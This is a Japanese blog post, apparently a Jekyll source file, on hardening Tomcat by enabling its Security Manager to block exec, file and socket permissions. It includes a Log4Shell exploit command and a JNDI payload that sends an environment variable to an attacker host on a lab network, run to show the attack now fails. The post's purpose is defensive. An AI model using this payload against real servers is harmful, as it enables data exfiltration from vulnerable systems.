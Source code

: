 ```yaml
---
layout:        post
title:         "Tomcatでwarのexec実行やネットワーク接続を禁止する"
date:          2022-01-23
category:      Java
cover:         /assets/cover14.jpg
redirect_from:
comments:      true
published:     true
latex:         false
photoswipe:    false
# sitemap: false
# feed:    false
---
```


Tomcatのセキュリティマネージャを有効にして、Tomcatを起動することで、各jarファイルが実行できる権限を制限することができます。

/etc/tomcat/tomcat.conf
```conf
SECURITY_MANAGER="true"
```

制限される権限は以下のものがあります。セキュリティマネージャを有効にすることで、攻撃する際に使用される権限が制限されます。
- java.util.PropertyPermission : JVMプロパティへの読み書き権限
- java.lang.RuntimePermission : exitやexecなどのシステム関数の実行権限
- java.io.FilePermission : ファイルとディレクトリへの読み書き実行権限
- java.net.SocketPermission : ネットワークソケットの使用権限
- java.net.NetPermission : マルチキャストネットワークの使用権限
- java.lang.reflect.ReflectPermission : Javaクラスに対するリフレクションの使用権限
- java.security.SecurityPermission : セキュリティメソッドへのアクセス権限
- java.security.AllPermission : セキュリティマネージャーの制限なしで実行する権限

Log4j2の脆弱性 (Log4shell) を含むWebアプリで、環境変数の値を攻撃者サーバの8888番ポートに送信させる攻撃は、失敗するようになりました。
```bash
~]$ python3 log4jpwn/pwn.py --target http://192.168.56.105:8080/log4j2-vulnapp/ --exploit-host 192.168.56.104 --payload-query-string --leak '${env:PATH}'
 i| starting server on 0.0.0.0:8888
 i| server started
 i| setting payload in User-Agent header
 i| setting payload as query string 'name'
 i| sending exploit payload ${jndi:ldap://192.168.56.104:8888/${env:PATH}} to http://192.168.56.105:8080/log4j2-vulnapp/
 i| request url was: http://192.168.56.105:8080/log4j2-vulnapp/?name=%24%7Bjndi%3Aldap%3A%2F%2F192.168.56.104%3A8888%2F%24%7Benv%3APATH%7D%7D
 i| response status code: 500
```
セキュリティマネージャを有効にすることで、脆弱性を利用した攻撃はできなくなりましたが、エラーによってサービスが停止するようになりました。

注意点としては、構成によってはjarがロギングする権限もないため、セキュリティマネージャによってアクセス拒否してもログに残らず、何が発生したかわからない状態になる可能性があります。

デフォルトのTomcatセキュリティポリシーの場所は /etc/tomcat/catalina.policy です。

tomcat のセキュリティマネージャが有効化されて起動しているかの確認は、以下のコマンドを実行して java のオプションに `-Djava.security.manager` が含まれていれば、有効化されていることが確認できます。
```bash
~]$ ps auxw | grep tomcat | grep security
tomcat   14572  0.7  7.7 1426120 79028 ?       Ssl  12:00   0:11 java -Dlog4j.configurationFile=file:///etc/tomcat/log4j2.xml -classpath /usr/share/tomcat/bin/bootstrap.jar:/usr/share/tomcat/bin/tomcat-juli.jar:/usr/share/java/commons-daemon.jar -Dcatalina.base=/usr/share/tomcat -Dcatalina.home=/usr/share/tomcat -Djava.endorsed.dirs= -Djava.io.tmpdir=/var/cache/tomcat/temp -Djava.util.logging.config.file=/usr/share/tomcat/conf/logging.properties -Djava.util.logging.manager=org.apache.juli.ClassLoaderLogManager -Djava.security.manager -Djava.security.policy==/usr/share/tomcat/conf/catalina.policy org.apache.catalina.startup.Bootstrap start
```

以上です。

- 前回の記事：[Log4j2の脆弱性がSELinuxで防げるかを検証する](http://localhost:4000/blog/java/log4j2-vuln-and-selinux)


#### 参考文献
- [Apache Tomcat 9 -- Security Manager How-To](https://tomcat.apache.org/tomcat-9.0-doc/security-manager-howto.html)

